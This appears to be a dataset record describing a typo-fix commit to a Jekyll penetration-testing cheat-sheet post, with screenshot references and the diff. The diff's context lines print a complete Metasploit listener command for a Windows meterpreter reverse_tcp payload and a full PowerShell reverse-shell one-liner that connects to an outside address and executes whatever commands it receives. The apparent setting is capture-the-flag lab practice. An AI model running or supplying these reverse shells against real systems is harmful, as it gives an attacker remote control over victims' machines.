

Before and after one commit to datahackare/warz0ne, a Jekyll site: the page built from _posts/2021-03-31-CheatSheet.md, in a window 1280 px wide and 900 px high, scrolled down 743 px. Shown: the whole window, without its empty margins (107-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2021-03-31-CheatSheet.md

````diff
--- a/_posts/2021-03-31-CheatSheet.md
+++ b/_posts/2021-03-31-CheatSheet.md
@@ -32,7 +32,7 @@ Powershell Invoke-WebRequest -Uri IPNUMMER:PORT/FILNAMN -OutFile FILENAME
 
 ### [](#header-3)Listener in Metasploit
 
-Quick onliner for setting up a listener in Metasploit for reverse shell for Windows.
+Quick oneliner for setting up a listener in Metasploit for reverse shell for Windows.
 
 ```
 sudo msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.10.14.10; set lport 4444; set ExitOnSession false; exploit -j"
@@ -42,7 +42,7 @@ sudo msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/revers
 
 ### [](#header-3)Powershell reverse shell
 
-A powershell onlineliner for a reverse shell.
+A powershell oneliner for a reverse shell.
 
 ```
 $client = New-Object System.Net.Sockets.TCPClient("10.10.14.20",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
````
